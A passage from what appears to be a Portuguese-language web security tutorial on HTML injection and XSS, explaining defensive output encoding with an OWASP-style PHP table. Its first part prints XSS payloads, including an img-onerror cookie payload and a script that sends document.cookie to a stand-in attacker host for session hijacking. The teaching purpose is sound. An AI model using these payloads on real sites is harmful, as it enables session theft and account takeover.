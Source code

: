 **Payload Simples**: `<script>alert('XSS')</script>`

**Payload Furtivo**: `<img src=x onerror=alert(document.cookie)>`

**URL de Ataque**: `http://exemplo.com/pagina.php?username=<img src=x onerror=alert(document.cookie)>`

**HTML Resultante**: `<div>Bem-vindo, <img src=x onerror=alert(document.cookie)>!</div>`

**Análise**: O primeiro *payload* é o teste clássico de XSS. O segundo é mais sofisticado; ele cria uma *tag* de imagem com uma fonte inválida (`src=x`). Como a imagem não pode ser carregada, o navegador aciona o manipulador de eventos `onerror`, que executa o código JavaScript do invasor. Este método é frequentemente usado para contornar filtros básicos que procuram a *string* `<script>`.

### Sequestro de Sessão via XSS

O objetivo final de muitos ataques XSS é o sequestro de sessão, que concede ao invasor acesso total à conta da vítima.

**Payload**:

```html
<script>new Image().src="http://servidor-do-invasor.com/log.php?cookie=" + document.cookie;</script>
```

**Análise**: Este *payload* executa um *script* que cria um novo objeto de imagem no DOM. O atributo `src` da imagem é definido para uma URL no servidor do invasor. Crucialmente, o *cookie* de sessão da vítima (`document.cookie`) é anexado a esta URL como um parâmetro de consulta. O navegador da vítima, ao tentar carregar a imagem, fará uma requisição GET para o servidor do invasor, entregando assim o *cookie* de sessão. O invasor pode então extrair o *cookie* de seus *logs* de servidor, inseri-lo em seu próprio navegador e assumir a sessão da vítima, contornando completamente o processo de *login*.

## Uma Estratégia de Defesa em Múltiplas Camadas

A defesa eficaz contra a Injeção de HTML e XSS não depende de uma única solução, mas sim de uma abordagem de defesa em profundidade que combina várias técnicas de mitigação. A estratégia mais robusta prioriza a codificação de saída sensível ao contexto, reforçada pela validação de entrada e por políticas de segurança no nível do navegador.

### Defesa Primária: Codificação de Saída Sensível ao Contexto

A defesa mais fundamental e eficaz contra a Injeção de HTML é a codificação de saída contextual. O princípio subjacente é que todos os dados não confiáveis devem ser tratados como texto simples e devem ser codificados (ou "escapados") de forma apropriada para o contexto específico em que serão renderizados pelo navegador. O navegador possui múltiplos analisadores (HTML, Atributo HTML, JavaScript, CSS, URL), e cada um interpreta os dados de maneira diferente. Usar a codificação errada para o contexto errado pode anular a proteção ou até mesmo introduzir novas vulnerabilidades.

**Tabela: Regras de Codificação Contextual Recomendadas pela OWASP**

| Contexto | Exemplo de Código Vulnerável | Método de Defesa | Exemplo de Código Seguro (PHP) |
|----------|-----------------------------|------------------|-------------------------------|
| **Corpo do HTML** | `<div>$dadosNaoConfiaveis</div>` | Codificação de Entidades HTML | `<div><?php echo htmlspecialchars($dadosNaoConfiaveis, ENT_QUOTES, 'UTF-8');?></div>` |
| **Atributo HTML** | `<input value="$dadosNaoConfiaveis">` | Codificação de Atributos HTML | `<input value="<?php echo htmlspecialchars($dadosNaoConfiaveis, ENT_QUOTES, 'UTF-8');?>">` |
| **String JavaScript** | `<script>var x = '$dadosNaoConfiaveis';</script>` | Codificação Unicode JavaScript | `<script>var x = '<?php echo json_encode($dadosNaoConfiaveis);?>';</script>` |
| **Parâmetro de URL** | `<a href="?q=$dadosNaoConfiaveis">` | Codificação de URL (*Percent-Encoding*) | `<a href="?q=<?php echo urlencode($dadosNaoConfiaveis);?>">` |
| **Valor CSS** | `<div style="width: $dadosNaoConfiaveis;">` | Validação Estrita e Codificação CSS | `// Evitar entrada do usuário aqui. Se inevitável, validar estritamente para o formato esperado (ex: '100px').` |
